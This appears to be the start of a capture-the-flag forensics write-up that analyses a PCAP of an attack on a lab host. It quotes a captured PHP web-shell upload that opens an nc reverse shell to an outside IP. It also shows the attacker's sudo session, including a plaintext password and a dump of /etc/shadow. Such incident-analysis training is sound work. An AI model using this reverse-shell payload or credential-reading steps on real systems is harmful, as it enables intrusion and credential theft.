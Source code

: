 Oh cool blue team stuff

we are provided with a PCAP file...wireshark read those better

filter for http

```
)n)ºHEô
.@@VTÀ¨ªÀ¨ªºvPÃró:
'ö©ó
Â¦+5P,ÆPOST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
```

Then filter by tcp and follow the steam

that guy use `sudo -l` like a Boss

```
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
```